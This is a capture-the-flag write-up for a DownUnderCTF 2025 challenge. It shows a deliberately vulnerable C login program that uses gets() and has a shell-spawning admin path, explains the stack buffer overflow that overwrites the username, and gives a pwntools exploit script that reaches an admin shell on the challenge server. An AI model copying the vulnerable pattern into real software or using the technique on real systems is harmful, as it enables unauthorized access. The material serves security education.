


# RE: corporate-cliche

## The Challenge

Dear Jelly,

It's time to really **push the envelope** and go **above and beyond**! We've got a new challenge for you. Can you find a way to get into our email server?

Regards,  
Blue Alder

AU: `nc chal.2025.ductf.net 30000`  
US: `nc chal.2025-us.ductf.net 30000`

---
## Code Analysis
For this challenge, we are given two files:
- `email_server`, and
- `email_server.c`

We can reason that these two files are the executable, and C language source code for said executable. We confirm this by opening `email_server` in a text editor:



As expected, we see what we expect to see when opening a binary file in a text editor.  The "ELF" at the start of the file confirms that this is a Linux executable (Executable and Linkable Format).

It's time to take a closer look at the `email_server.c` file, since looking at the code will give us clues on how to exploit the program.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void open_admin_session() {
    printf("-> Admin login successful. Opening shell...\n");
    system("/bin/sh");
    exit(0);
}

void print_email() {
    printf(" ______________________________________________________________________\n");
    printf("| To:      all-staff@downunderctf.com                                  |\n");
    printf("| From:    synergy-master@downunderctf.com                             |\n");
    printf("| Subject: Action Item: Leveraging Synergies                           |\n");
    printf("|______________________________________________________________________|\n");
    printf("|                                                                      |\n");
    printf("| Per my last communication, I'm just circling back to action the      |\n");
    printf("| sending of this email to leverage our synergies. Let's touch base    |\n");
    printf("| offline to drill down on the key takeaways and ensure we are all     |\n");
    printf("| aligned on this new paradigm. Moving forward, we need to think       |\n");
    printf("| outside the box to optimize our workflow and get the ball rolling.   |\n");
    printf("|                                                                      |\n");
    printf("| Best,                                                                |\n");
    printf("| A. Manager                                                           |\n");
    printf("|______________________________________________________________________|\n");
    exit(0);
}

const char* logins[][2] = {
    {"admin", "🇦🇩🇲🇮🇳"},
    {"guest", "guest"},
};

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char password[32];
    char username[32];

    printf("┌──────────────────────────────────────┐\n");
    printf("│      Secure Email System v1.337      │\n");
    printf("└──────────────────────────────────────┘\n\n");

    printf("Enter your username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = 0;

    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }

    printf("Enter your password: ");
    gets(password);

    for (int i = 0; i < sizeof(logins) / sizeof(logins[0]); i++) {
        if (strcmp(username, logins[i][0]) == 0) {
            if (strcmp(password, logins[i][1]) == 0) {
                printf("-> Password correct. Access granted.\n");
                if (strcmp(username, "admin") == 0) {
                    open_admin_session();
                } else {
                    print_email();
                }
            } else {
                printf("-> Incorrect password for user '%s'. Access denied.\n", username);
                exit(1);
            }
        }
    }
    printf("-> Login failed. User '%s' not recognized.\n", username);
    exit(1);
}
```

Here's a breakdown of what it does:
1. **User Input Handling**: It reads a username and password from the user.
2. **Admin Check**: If the username is "admin", it immediately rejects the login.
3. **Password Verification**: It checks if the entered credentials match any in the predefined `logins` array.
## The Exploit Plan
Straight away we can identify the weakness and avenue for exploit.

```
    char password[32];
    char username[32];

...

    printf("Enter your username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = 0;

    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }

    printf("Enter your password: ");
    gets(password);
```

For those that missed it, let me break this down...

The variable `password` stores its values in a 32-character array (or, a buffer). The issue lies in the use of `gets()` for password input, which doesn't check the length of the input, allowing for buffer overflow. That is to say, if we try to cram more than 32 characters into the `password` variable, we'll overflow the allocated memory for that variable and start writing to other memory locations. Specifically, we'll overwrite the `username` variable, since that just happens to be how the program will place these variables in memory (notice how the `password` variable was declared before `username`).

Our goal is to log in as "guest" but somehow bypass the admin check. Here's how we'll do it:
1. **Login as Guest**: First, we'll log in as "guest".
2. **Buffer Overflow**: Then, we'll send a password that's longer than the buffer size, causing it to overflow into the username buffer.
3. **Overwrite Username**: By carefully crafting our payload, we'll overwrite the username buffer with "admin".
## Crafting the Payload

To make a payload that works, we need send the correct password for the 'admin' user, followed by the null terminator (`\0x00`), then some padding to fill up the remaining characters until we get to 32, and finally the admin username 'admin'. The problem is we can't type the null terminator into the command line.

We'll write a Python script to interact with the email server. The script will open the connection to the server, then send the username `guest` to login. Finally, the script will send our crafted payload to set the admin password, overflow the buffer, and set the username to `admin`.

```
from pwn import *

p = remote("chal.2025.ductf.net", 30000)

p.sendline(b"guest")

payload = (
    b"\xf0\x9f\x87\xa6" +  # 🇦
    b"\xf0\x9f\x87\xa9" +  # 🇩
    b"\xf0\x9f\x87\xb2" +  # 🇲
    b"\xf0\x9f\x87\xae" +  # 🇮
    b"\xf0\x9f\x87\xb3" +  # 🇳
    b"\x00" +              # null terminator (works here!)
    b"A" * (32 - 21) +
    b"admin"
)

p.sendline(payload)

p.interactive()
```

## The Result
When we executed the script, it successfully logs us in as "admin" and opens a shell. Inside the shell, we find a `flag.txt` file containing the flag:


### Conclusion
This challenge demonstrates the dangers of using unsafe functions like `gets()` and the importance of validating user inputs. It also shows how buffer overflows can be used to manipulate program execution, even in seemingly secure systems.
